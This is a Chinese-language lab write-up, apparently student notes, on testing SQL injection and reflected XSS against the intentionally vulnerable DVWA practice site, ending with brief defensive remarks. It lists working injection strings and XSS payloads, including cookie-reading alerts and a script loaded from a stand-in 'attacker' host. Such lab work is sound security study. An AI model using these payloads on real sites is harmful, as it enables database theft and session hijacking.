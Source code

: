 # 渗透测试

## 环境搭建

直接使用了[在线版本DVWA](https://www.vulnspy.com/dvwa/)直接面去了环境搭建之苦. ~~(白下了好久的OWASP_Broken_Web_Apps_VM_1.2,又卡又没用.)~~

![Alt](./pic/奇怪的知识增加了.jpeg)

## SQL注入测试

简单来讲SQL注入就是采用一些SQL语句上检查的漏洞来进行攻击.采用特殊的输入来对数据库的数据进行查询和修改.比如正常来说,我们只能按照当前用户的ID查找到对应的内容.例如输入1则只能获取对应1的用户的信息.



![](./pic/Screen Shot 2020-04-06 at 4.49.46 PM.png)

但是通过对SQL语句进行特殊的测试和修改我们可以得到额外的内容.例如输入1'or'1'='1,我们可以查询到所有用户的信息.



![](./pic/Screen Shot 2020-04-06 at 4.50.11 PM.png)

另外的通过适当的修改语句,我们还可以查到非当前功能应该返回的值.例如输入1' and 1=2 union select version(),database() -- 我们可以查询到当前数据库的版本等.



![](./pic/Screen Shot 2020-04-06 at 4.50.57 PM.png)



## 跨站脚本攻击测试

跨站脚本攻击共分为三类反射型（Reflected）、存储型（Stored）、DOM型.原理是采用html文本中的具体漏洞来添加弹窗甚至是查询新的信息.这里我们只对反射型的跨站脚本进行实验.

准备好对应的攻击文本.并输入对应的文本框就可以得到如下的内容.

```xml
<script>alert(123)</script>
<script>javascript:alert(document.cookie);</script>
<input onfocus="javascript:alert(document.cookie)" />
<script src="http://attacker/xss.js">confirm(123)</script>
<img src="http://www.baidu.com" onmouseover=prompt(123) />
```

![](./pic/Screen Shot 2020-04-06 at 5.05.42 PM.png)





## 如何防范

对应的DVMA有安全性选择,我查看了一下对应的DVMA下不同安全等级的代码规范, 更高级的代码对应的对输入的条件约束更详细,并且对应的逻辑更为的紧密.这个是我们今后设计开发要考虑到的部分.也即设计更为严谨的代码输入规范.



## 参考资料

[在线环境](https://www.vsplate.com/labs.php)

[SQL注入之DVWA平台测试mysql注入](https://www.cnblogs.com/saryli/p/5883915.html)

[DVWA之跨站脚本攻击漏洞测试01-反射型XSS](https://www.jianshu.com/p/c6ed01e6f905)

